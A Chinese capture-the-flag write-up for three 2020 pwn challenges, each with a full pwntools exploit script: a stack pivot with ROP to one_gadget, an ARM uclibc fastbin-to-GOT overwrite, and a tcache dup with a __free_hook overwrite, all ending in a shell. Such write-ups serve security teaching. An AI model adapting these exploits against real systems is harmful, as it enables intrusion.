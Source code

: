 ```yaml
---
title: 第五空间 2020 Pwn
date: 2020-06-25 00:00:00
categories:
- CTF/Pwn
tags: 栈溢出 堆溢出 UAF
---
```


三道题的题目附件：[5space_attachment.zip](https://xuanxuanblingbling.github.io/assets/pwn/5space_attachment.zip)

## twice

带canary的栈溢出，可以通过puts泄露栈溢出并且出题人会修好溢出泄露时对canary最后一个0字节的破坏。第二次输入时即可栈溢出劫持返回地址，但是因为溢出长度受限无法直接ROP。通过劫持到leave上，进行栈迁移，到输入的缓冲区上进而完成ROP。在ROP中，首先通过puts泄露GOT表进而泄露libc，然后将程序控制流返回到_start上进而继续栈溢出即可劫持控制流到one_gadget上，进而完成控制流劫持。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
io   = remote("121.36.59.116",9999)
uu64 = lambda data : u64(data.ljust(8, b'\0'))

# leak canary and stack
io.recvuntil(">");io.send("a"*89);io.recv(89)
canary = uu64('\x00'+io.recv(7))
stack = uu64(io.recv(6))

# stack overflow to leak libc and go back _start
io.recvuntil(">")
payload = p64(0)
payload += p64(0x400923)        # pop rdi
payload += p64(0x601020)        # puts_got
payload += p64(0x4005C0)        # puts
payload += p64(0x400630)        # _start
payload =  payload.ljust(88)    # full the buffer
payload += p64(canary)          # canary
payload += p64(stack-112)       # buffer addr
payload += p64(0x400879)        # leave to hijack rsp to buffer addr
io.send(payload)
io.recvline()
libc = uu64(io.recv(6))-0x6f690
log.warn(hex(libc))

# pass the first input
io.recvuntil(">");io.send("a");io.recvuntil(">")

#stack overflow to one gadget
payload = ""
payload = payload.ljust(88)     # fill stack with NULL to satisfy one_gadget
payload += p64(canary)          # canary
payload += p64(stack-112)       # buffer addr
payload += p64(libc+0x4526a)    # one_gadget
io.send(payload)

io.interactive()
```

## pwnme

arm的堆溢出，使用的是uclibc，在bss段构造伪堆块并且通过堆溢出将fastbin的fd指向伪堆块，即可将堆块分配到bss段，通过修改bss段的指针数据，即可泄露libc并且修改got表，最终通过修改free的got表为system，然后free掉一个内容是$0的chunk即可getshell。比赛中并没有搭好环境，以下exp为盲测结果，其中的偏移并不知道为何。

```python
from pwn import *
context(log_level='debug',os='linux',arch='arm')
io = remote('121.36.58.215', 1337)
libc = ELF('./libuClibc-1.0.34.so')

sla         = lambda delim,data          :  (io.sendlineafter(delim, data))
show        = lambda                     :  (sla(">>> ","1"))
add         = lambda len,data            :  (sla(">>> ","2"),sla("Length:",str(len)),sla("Tag:",data))
edit        = lambda index,len,data      :  (sla(">>> ","3"),sla("Index:",str(index)),sla("Length:",str(len)),sla("Tag:",data))
delete      = lambda index               :  (sla(">>> ","4"),sla("Tag:",str(index)))

# just try and don't know why to -2
fd = 0x2106c - 8 - 2  
free_got = 0x00021038

# prepare chunks
add(0x40,'a')
add(0x40,'a')
add(0x40,'a')
add(0x40,'$0\x00')

# use heap overflow to modify the fd of fastbin chunk to bss
delete(1)
edit(0,0x88,'a'*0x44+p32(0x48)+p32(fd))

# get the fake chunk and modify bss data to free_got
# just try and don't know why to 34+2
add(0x40,'a')
add(0x40,'a'*(34+2) + p32(free_got))

# print free_got to leak libc
show();io.recvuntil('0 : ')
leak = u32(io.recv(4))
log.success(hex(leak))
libc.address = leak - libc.symbols['free']

# modify free_got to system
edit(0,4,p32(libc.symbols['system']))

# trigger system($0)
delete(3)
io.interactive()
```

## of

libc2.27，有tcache，原题直接给了c源码，在源码中，堆块的使用、申请与释放存在着cookie的保护，使得虽然在释放后存在悬空指针，但是并无法触发UAF或者double free。但是在远程环境中，cookie似乎没有起到任何作用，所以直接通过基本的堆利用的手段，UAF泄露unsorted bin地址以及tcache dup完成泄露libc基址以及任意地址写，最后通过改写__free_hook，完成控制流劫持进而getshell。

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
io = remote('121.36.74.70', 9999)
libc = ELF('./libc-2.27.so')

sla         = lambda delim,data          :  (io.sendlineafter(delim, data))
add         = lambda index               :  (sla("choice:","1"),sla("Index: ",str(index)))
edit        = lambda index,data          :  (sla("choice:","2"),sla("Index: ",str(index)),sla("Content: ",str(data)))
show        = lambda index               :  (sla("choice:","3"),sla("Index: ",str(index)))
delete      = lambda index               :  (sla("choice:","4"),sla("Index: ",str(index)))
uu64        = lambda data                :  u64(data.ljust(8, b'\0'))

# use unsorted bin to leak libc
for i in range(8): add(i)
for i in range(7): delete(i+1)
delete(0);show(0)
io.recvuntil('Content: ')
libc.address = uu64(io.recv(6))-0x3ebca0

# empty tcache
for i in range(9): add(i)

# use tcache dup to aaw
delete(0)
delete(0)
add(0);edit(0,p64(libc.symbols['__free_hook']))
add(1);
add(2);edit(2,p64(libc.symbols['system']))

# use free(3) trigger system($0)
edit(3,'$0\x00');delete(3)
io.interactive()
```